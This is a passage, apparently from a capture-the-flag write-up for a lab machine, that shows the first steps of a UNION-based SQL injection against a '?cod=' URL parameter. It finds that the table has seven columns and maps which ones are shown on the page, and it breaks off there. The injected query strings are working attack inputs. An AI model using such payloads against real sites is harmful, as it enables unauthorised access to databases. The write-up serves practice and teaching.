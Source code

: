 **Operator - [untion](https://www.techonthenet.com/mysql/union.php)**

We can check how many columns the table have:

- ?cod=1 union select 1

This give us an Fail so there are more columns!

![Fail](Jarvis%202c6ef6729276453bbe90b4f7f2bf76e9/Untitled%201.png)

Fail

- ?cod=1 union select 1,2,3,4,5,6,7

Now we know the table have 7 columns !

![Work](Jarvis%202c6ef6729276453bbe90b4f7f2bf76e9/Untitled%202.png)

Work

- ?cod=999 union select 1,2,3,4,5,6,7

The room 999 dont exist. We see which numbers stand for which output !

![Trigger](Jarvis%202c6ef6729276453bbe90b4f7f2bf76e9/Untitled%203.png)
